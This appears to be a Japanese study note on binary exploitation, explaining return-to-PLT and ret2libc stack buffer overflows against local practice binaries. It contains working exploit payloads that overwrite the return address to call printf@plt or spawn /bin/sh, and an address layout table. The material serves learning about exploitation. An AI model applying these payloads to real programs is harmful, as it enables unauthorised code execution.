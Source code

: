 ```pg
```

```
$ (echo -e 'r\n/bin/sh\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\x62\xe1\xf7\xf1\x84\x04\x08\x60\xa0\x04\x08';cat) | gdb -q ./ret2libc 
```

## return to PLT
### 仕組み
printf@pltを呼び出す。
printfを引数込みで呼び出す。

ret命令の挙動は, (1)現在のeipをpopして(2)そのeipのアドレスにjumpするというもの。

call命令は, (1)スタックにリターンアドレスを積んでから(引数も積む)(2)jumpを行うというもの。

したがって, ret命令でcall命令を再現するには, (1)スタックにリターンアドレスを積んでおけばおk(引数も積む)。

### 攻撃コード
|内容|アドレス|補足|
|:-:|:-:|:-:|
|下位アドレス|0x00000000|...|
|...|...|...|
|関数のアドレス=リターンアドレス|0x08048340|printf@plt|
|printf呼び出し後のリターンアドレス|BBBB|ダミー|
|printfの引数(buffer)|0x0804a040|bufferの中身を表示したいので|
|上位アドレス|0xffffffff| |

gdbでpattern_createおよびpattoをかけて, EIPに設定されるのが44文字目以降であることを確認。

以上の順にEIPを埋めていけば良いため, 攻撃コードの概要は以下のようになる。
`A*44文字 + \x40\x83\x04\x08 + BBBB + \x40\xa0\x04\x08`

したがって, 攻撃コードは以下の通り。

```bash
$ python -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\x40\x83\x04\x08" + b"BBBB" + b"\x40\xa0\x04\x08")' | ./plt
```

と思いきや, 実行がうまくいきません。

調べてみると, リターンアドレスがダミーだとprintf関数が正しく実行されないようです(printf関数のret時にreturnアドレスが正しくないとSegmentationFaultになるらしい)
http://vintersnow.github.io/post/catch_the_flag_if_you_can_binary/


## Return to libc
### 仕組み
return to PLTではprintf関数を呼び出しましたが, 次はsystem関数を実行してみましょう。
